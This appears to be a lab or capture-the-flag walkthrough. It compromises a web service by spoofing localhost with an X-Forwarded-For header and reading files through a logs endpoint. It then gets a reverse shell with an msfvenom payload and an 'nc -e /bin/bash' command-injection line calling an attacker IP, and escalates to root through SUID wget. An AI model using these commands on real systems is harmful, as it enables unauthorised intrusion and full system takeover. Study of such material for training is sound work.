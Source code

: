 ![](../attachment/2f56fd99e18b8c6e4d4ac9155ae3890c.png)
Available methods:
```
/version
/update
/logs
/restart
```
Using `/logs`
![](../attachment/96f397bba5e9d57386b0d5ddb0707797.png)
This means the access is denied for our host but maybe the localhost can access.

Intercept the request:
![](../attachment/b3f979c98716338e596410fed0711b49.png)

Now we can use `X-Forwarded-For` Header to spoof the localhost:
![](../attachment/1ed8fdee5a655a68ee213a69f9869d40.png)

We have file read:
![](../attachment/9d2112b6213a4528f452542c3f57c1d0.png)

We have a user called *clumsyadmin*

We can create an ELF reverse shell executeable:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.229 LPORT=13337 -f elf > shell
```
Now start a python server:
```
python3 -m uploadserver 80
```
Now we can use `/update`:
![](../attachment/f26c835883a51f5c3ba97cf31d2f1a1e.png)
But no shell when visiting */restart*. This is intended path but we do not get a shell.


Now we can get **main.py** using */logs*
![](../attachment/ec928446d8cb9632919f24e448c64a8a.png)

We can try command injection:
![](../attachment/7bd31cce3f8220d30b68cc1d9e45f09d.png)
Using payload:
```
nc 192.168.45.229 13337 -e /bin/bash
```
![](../attachment/db2113851f7d4d1e6d9d1ccb58212e0a.png)
We get a shell:
![](../attachment/2be157b887a3c00a532bdb06e480b434.png)

Running linpeas:
![](../attachment/80bef4c75d3408c671a2e8b3a3bfc0e8.png)
We have wget as an SUID binary.
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```
![](../attachment/9aabb7fdbe96fcd83bcf0eb5a8fe7f4b.png)

